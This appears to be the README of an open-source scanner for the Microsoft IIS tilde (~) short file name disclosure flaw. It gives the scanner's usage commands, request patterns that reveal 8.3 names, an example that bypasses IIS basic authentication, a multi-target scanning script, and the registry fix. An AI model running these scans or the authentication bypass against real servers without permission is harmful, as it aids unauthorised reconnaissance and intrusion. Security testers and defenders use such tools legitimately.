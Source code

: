 IIS Short Name Scanner
=====================
The latest version of scanner for IIS short file name (8.3) disclosure vulnerability by using the tilde (~) character.

Description
-------------
Microsoft IIS contains a flaw that may lead to an unauthorized information disclosure. The issue is triggered during the parsing of a request that contains a tilde character (~). This may allow a remote attacker to gain access to file and folder name information.

This scanner was moved from https://code.google.com/p/iis-shortname-scanner-poc/ to GitHub for better support.

Original research file: http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf

It is possible to detect short names of files and directories which have an 8.3 equivalent in Windows by using some vectors in several versions of Microsoft IIS. For instance, it is possible to detect all short-names of ".aspx" files as they have 4 letters in their extensions.

Note: new techniques have been introduced to the latest versions of this scanner and it can now scan IIS8.5 when it is vulnerable. 

It is not easy to find the original file or folder names based on the short names. However, the following methods are recommended as examples:
- If you can guess the full extension (for instance .ASPX when the 8.3 extension is .ASP), always try the short name with the full extension.
- Sometimes short names are listed in Google which can be used to find the actual names
- Using text dictionary files is also recommended. If a name starts with another word, the second part should be guessed based on a dictionary file separately. For instance, ADDACC~1.ASP can be AddAccount.aspx, AddAccounts.aspx, AddAccurateMargine.aspx, etc
- Searching in the website contents and resources can also be useful to find the full name. This can be achieved for example by searching Site Map in the Burp Suite tool.

Installation
--------------
The recent version has been compiled by using Open JDK 17 (an old jar file for JDK7 is also available). 
You will need to download files in the [/release](https://github.com/irsdl/IIS-ShortName-Scanner/tree/master/release) directory to use this old application!

You can also compile this application yourself. Please submit any issues in GitHub for further investigation.
It should be straight forward to open this project in Eclipse as well.

Usage
-------

### Command line options

USAGE 1 (To verify if the target is vulnerable with the default config file):
```
java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED  -jar iis_shortname_scanner.jar [URL]
```

USAGE 2 (To find 8.3 file names with the default config file):
```
java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar [ShowProgress] [ThreadNumbers] [URL]
```

USAGE 3 (To verify if the target is vulnerable with a new config file):
```
java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar [URL] [configFile]
```

USAGE 4 (To find 8.3 file names with a new config file):
```
java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar [ShowProgress] [ThreadNumbers] [URL] [configFile]
```

USAGE 5 (To scan multiple targets using a linux box):
```
./multi_targets.sh <scope file> <is_default_https (1=https)>
```

DETAILS:
```
 [ShowProgress]: 0= Show final results only - 1= Show final results step by step  - 2= Show Progress
 [ThreadNumbers]: 0= No thread - Integer Number = Number of concurrent threads [be careful about IIS Denial of Service]
 [URL]: A complete URL - starts with http/https protocol
 [configFile]: path to a new config file which is based on config.xml
```

Examples:
```
- Example 0 (to see if the target is vulnerable):
 java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar http://example.com/folder/

- Example 1 (uses no thread - very slow):
 java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar 2 0 http://example.com/folder/new%20folder/

- Example 2 (uses 20 threads - recommended):
 java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar 2 20 http://example.com/folder/new%20folder/

- Example 3 (saves output in a text file):
 java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar 0 20 http://example.com/folder/new%20folder/ > c:\results.txt

- Example 4 (bypasses IIS basic authentication):
 java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar 2 20 http://example.com/folder/AuthNeeded:$I30:$Index_Allocation/

- Example 5 (using a new config file):
 java --illegal-access=permit --add-opens java.base/java.net=ALL-UNNAMED -jar iis_shortname_scanner.jar 2 20 http://example.com/folder/ newconfig.xml 
 
- Example 6 (scanning multiple targets using a linux box):
 ./multi_targets.sh scope.txt 1
```

Note 1: Edit config.xml file to change the scanner settings and add additional headers.
Note 2: Sometimes it does not work for the first time and you need to try again.


How Does It Work?
------------------
In the following examples, IIS responds with a different message when a file exists:
```
http://target/folder/valid*~1.*/.aspx
http://target/folder/invalid*~1.*/.aspx
```

However, different IIS servers may respond differently, and for instance some of them may work with the following or other similar patterns:
```
http://target/folder/valid*~1.*\.asp
http://target/folder/invalid*~1.*\.asp
```
Method of sending the request such as GET, POST, OPTIONS, DEBUG, ... is also important.

I believe monitoring the requests by using a proxy is the best way of understating this issue and this scanner.


How To Fix This Issue
----------------------
Microsoft will not patch this security issue. Their last response is as follows:
```
Thank you for contacting the Microsoft Security Response Center.  

We appreciate your bringing this to our attention.  Our previous guidance stands: deploy IIS with 8.3 names disabled.  
```

Therefore, it is recommended to deploy IIS with 8.3 names disabled by creating the following registry key on a Windows operating system:
```
	Key:   HKLM\SYSTEM\CurrentControlSet\Control\FileSystem
	Name:  NtfsDisable8dot3NameCreation 
	Value:        1 
```

Note: The web folder needs to be recreated, as the change to the NtfsDisable8dot3NameCreation registry entry affects only files and directories that are created after the change, so the files that already exist are not affected.


References
------------
One of the new methods: https://soroush.secproject.com/blog/2014/08/iis-short-file-name-disclosure-is-back-is-your-server-vulnerable/

Original research file: http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf

Website Reference: http://soroush.secproject.com/blog/2012/06/microsoft-iis-tilde-character-vulnerabilityfeature-short-filefolder-name-disclosure/

Video Link: http://www.youtube.com/watch?v=XOd90yCXOP4

http://www.osvdb.org/83771

http://www.exploit-db.com/exploits/19525/

http://securitytracker.com/id?1027223


